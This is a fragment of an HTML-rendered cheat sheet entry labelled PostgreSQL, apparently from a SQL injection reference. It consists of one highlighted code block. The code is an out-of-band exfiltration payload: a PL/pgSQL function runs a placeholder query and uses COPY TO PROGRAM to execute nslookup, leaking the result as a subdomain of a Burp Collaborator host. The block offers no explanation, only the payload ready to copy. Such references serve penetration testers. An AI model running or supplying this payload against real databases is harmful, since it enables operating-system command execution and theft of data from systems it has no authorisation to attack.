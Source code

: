 | PostgreSQL | <div class="hextra-code-block hx:relative hx:mt-6 hx:first:mt-0 hx:group/code"> <div><div class="highlight"><pre tabindex="0" class="chroma"><code class="language-sql" data-lang="sql"><span class="line"><span class="cl"><span class="k">create</span><span class="w"> </span><span class="k">OR</span><span class="w"> </span><span class="k">replace</span><span class="w"> </span><span class="k">function</span><span class="w"> </span><span class="n">f</span><span class="p">()</span><span class="w"> </span><span class="k">returns</span><span class="w"> </span><span class="n">void</span><span class="w"> </span><span class="k">as</span><span class="w"> </span><span class="err">\$\$</span><span class="w"> </span></span></span><span class="line"><span class="cl"><span class="w"></span><span class="k">declare</span><span class="w"> </span><span class="k">c</span><span class="w"> </span><span class="nb">text</span><span class="p">;</span><span class="w"> </span></span></span><span class="line"><span class="cl"><span class="w"></span><span class="k">declare</span><span class="w"> </span><span class="n">p</span><span class="w"> </span><span class="nb">text</span><span class="p">;</span><span class="w"> </span></span></span><span class="line"><span class="cl"><span class="w"></span><span class="k">begin</span><span class="w"> </span></span></span><span class="line"><span class="cl"><span class="w"></span><span class="k">SELECT</span><span class="w"> </span><span class="k">into</span><span class="w"> </span><span class="n">p</span><span class="w"> </span><span class="p">(</span><span class="k">SELECT</span><span class="w"> </span><span class="n">YOUR</span><span class="o">-</span><span class="n">QUERY</span><span class="o">-</span><span class="n">HERE</span><span class="p">);</span><span class="w"> </span></span></span><span class="line"><span class="cl"><span class="w"></span><span class="k">c</span><span class="w"> </span><span class="p">:</span><span class="o">=</span><span class="w"> </span><span class="s1">'copy (SELECT '''') to program ''nslookup '</span><span class="o">\|\|</span><span class="n">p</span><span class="o">\|\|</span><span class="s1">'.BURP-COLLABORATOR-SUBDOMAIN'''</span><span class="p">;</span><span class="w"> </span></span></span><span class="line"><span class="cl"><span class="w"></span><span class="k">execute</span><span class="w"> </span><span class="k">c</span><span class="p">;</span><span class="w"> </span></span></span><span class="line"><span class="cl"><span class="w"></span><span class="k">END</span><span class="p">;</span><span class="w"> </span></span></span><span class="line"><span class="cl"><span class="w"></span><span class="err">\$\$</span><span class="w"> </span><span class="k">language</span><span class="w"> </span><span class="n">plpgsql</span><span class="w"> </span><span class="k">security</span><span class="w"> </span><span class="k">definer</span><span class="p">;</span><span class="w"> </span></span></span><span class="line"><span class="cl"><span class="w"></span><span class="k">SELECT</span><span class="w"> </span><span class="n">f</span><span class="p">();</span></span></span></code></pre></div></div><div class="hextra-code-copy-btn-container hx:opacity-0 hx:transition hx:group-hover/code:opacity-100 hx:flex hx:gap-1 hx:absolute hx:m-[11px] hx:right-0 hx:top-0"> <button class="hextra-code-copy-btn hx:group/copybtn hx:cursor-pointer hx:transition-all hx:active:opacity-50 hx:bg-primary-700/5 hx:border hx:border-black/5 hx:text-gray-600 hx:hover:text-gray-900 hx:rounded-md hx:p-1.5 hx:dark:bg-primary-300/10 hx:dark:border-white/10 hx:dark:text-gray-400 hx:dark:hover:text-gray-50" title="Copy code"> <div class="hextra-copy-icon hx:group-[.copied]/copybtn:hidden hx:pointer-events-none hx:h-4 hx:w-4"><svg fill="none" viewBox="0 0 24 24" stroke="currentColor" stroke-width="2"> <path stroke-linecap="round" stroke-linejoin="round" d="M8 16H6a2 2 0 01-2-2V6a2 2 0 012-2h8a2 2 0 012 2v2m-6 12h8a2 2 0 002-2v-8a2 2 0 00-2-2h-8a2 2 0 00-2 2v8a2 2 0 002 2z"></path> </svg></div> <div class="hextra-success-icon hx:hidden hx:group-[.copied]/copybtn:block hx:pointer-events-none hx:h-4 hx:w-4"><svg fill="none" viewBox="0 0 24 24" stroke="currentColor" stroke-width="2"> <path stroke-linecap="round" stroke-linejoin="round" d="M5 13l4 4L19 7"></path> </svg></div> </button> </div> </div> |